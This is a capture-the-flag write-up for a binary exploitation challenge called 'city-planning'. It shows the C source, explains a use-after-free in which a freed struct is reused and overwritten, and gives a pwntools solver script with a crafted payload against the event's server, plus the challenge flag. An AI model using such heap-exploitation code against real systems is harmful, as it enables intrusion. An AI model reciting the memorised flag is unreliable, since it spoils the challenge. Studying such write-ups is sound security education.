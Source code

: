 ```yaml
---
title: city-planning
category: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
points : 345
flag: tjctf{th4nk_y0u_f0r_sav1ng_m3y_grade}
draft: false
---
```

So, we got a exe file and the source code

`chall.c`:
```py
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>

typedef struct {
    char name[32];
    int numAcres;
    int coordinates[2];
} buildingPlan;

typedef struct {
    int numAcres;
    int coordinates[2];
    int entryCode[8];
} HQPlan;

bool approvePlan(buildingPlan *plan) {
    if (plan->numAcres >= 10) {
        free(plan);
        plan = NULL;
        return false;
    }
    if (plan->coordinates[0] >= 200 || plan->coordinates[1] >= 200) {
        free(plan);
        plan = NULL;
        return false;
    }
    return true;
}

bool approveHQ(HQPlan *plan) {
    if (plan->numAcres >= 100) {
        free(plan);
        plan = NULL;
        return false;
    }
    if (plan->coordinates[0] >= 50 || plan->coordinates[1] >= 50) {
        free(plan);
        plan = NULL;
        return false;
    }
    return true;
}

int main() {
    char buf[32];

    setbuf(stdout, NULL);

    HQPlan *superSecretHQ = malloc(sizeof(HQPlan));
    superSecretHQ->numAcres = rand() % 100 + 10;
    superSecretHQ->coordinates[0] = rand() % 150 + 50;
    superSecretHQ->coordinates[1] = rand() % 150 + 50;
    for (int i = 0; i < 8; i++) {
        superSecretHQ->entryCode[i] = rand() % 100;
    }
    approveHQ(superSecretHQ);

    printf("Welcome to the city planner! You are allowed to plan one building for the city\n");
    buildingPlan *currentBuilding = malloc(sizeof(buildingPlan));

    printf("Enter the name of your building: ");
    fgets(buf, 32, stdin);
    memcpy(currentBuilding->name, buf, 32);

    printf("Enter the size of your building (in acres): ");
    fgets(buf, 32, stdin);
    currentBuilding->numAcres = atoi(buf);

    printf("Enter the east-west coordinate or your building (miles east of the city center): ");
    fgets(buf, 32, stdin);
    currentBuilding->coordinates[0] = atoi(buf);
    printf("Enter the north-south coordinate or your building (miles north of the city center): ");
    fgets(buf, 32, stdin);
    currentBuilding->coordinates[1] = atoi(buf);

    if (!approvePlan(currentBuilding)) {
        printf("Your building was not approved :(\n");
        return 1;
    }

    printf("Your building was approved! Construction will begin within the next 27 years\n\n");
    printf("Since your building was approved, you must be a great architect.\n");     
    printf("Because of this, we'd like to invite you to join the Super Secret Architect's Guild!\n");
    printf("To join the guild, all you have to do is find the planned coordinates of our headquarters\n");

    int guess[2];
    printf("Enter the east-west coordinate: ");
    fgets(buf, 32, stdin);
    guess[0] = atoi(buf);

    printf("Enter the north-south coordinate: ");
    fgets(buf, 32, stdin);
    guess[1] = atoi(buf);

    if (guess[0] != superSecretHQ->coordinates[0] || guess[1] != superSecretHQ->coordinates[1]) {
        printf("Incorrect guess\n");
        return 1;
    }

    printf("Correct! Welcome to the guild!");

    FILE *flagFile = fopen("flag.txt", "r");
    char flag[32];
    fgets(flag, 32, flagFile);

    printf("Here is the password to enter guild HQ: %s", flag);
    return 0;
}
```
from my analysis, there is `Use-After-Free` vuln\
First, the `main` function allocates a chunk for `HQPlan *superSecretHQ` and initializes it with random data. Crucially, the coordinates are always set to a value `>= 50`.\
The program immediately calls `approveHQ(superSecretHQ)`. This function checks if the coordinates are `>= 50`. Since this is always true, it calls `free(superSecretHQ)`, deallocating the memory. The `superSecretHQ` pointer now dangles, pointing to freed memory\
Right after, the program allocates memory for `buildingPlan*currentBuilding`. Since `sizeof(HQPlan)` and `sizeof(buildingPlan)` are identical (44 bytes), the `malloc` implementation (likely using tcache) reuses the exact same memory chunk that was just freed\
The UAF: As a result, both `superSecretHQ` and `currentBuilding` point to the same memory address. We can now control the data of the "secret" HQ by providing input for our own building plan

Now, our goal is to guess `superSecretHQ->coordinates`, we can simply write our own values into that location and then "guess" them\
```py
# Overwrites HQ->numAcres, HQ->coordinates[0], HQ->coordinates[1]
payload = b"\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00" + b"A" * 20
```
A small trick is required cus `fgets(buf, 32, ...)` reads at most 31 chars if we send a newline. Sending 32 byte payload with `sendline` leaves one byte and a newline in the `stdin` buffer.  Then passing checks, we provide valid inputs for out building's size and coordinates (`< 10` and `< 200`) to pass the `aprrovePlan` checks. When prompted to guess the secret coordinates, we simply enter `1` and `1`, the values we just wrote into memory.

This is the full `solver.py`:
```py
from pwn import *

HOST = "tjc.tf"
PORT = 31489
p = remote(HOST, PORT)
payload = b"\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00" + b"A" * 20

p.recvuntil(b"Enter the name of your building: ")
p.sendline(payload)
p.recvuntil(b"Enter the east-west coordinate or your building (miles east of the city center): ")
p.sendline(b"100")
p.recvuntil(b"Enter the north-south coordinate or your building (miles north of the city center): ")
p.sendline(b"100")
p.recvuntil(b"Enter the east-west coordinate: ")
p.sendline(b"1")
p.sendline(b"1")
p.interactive()
```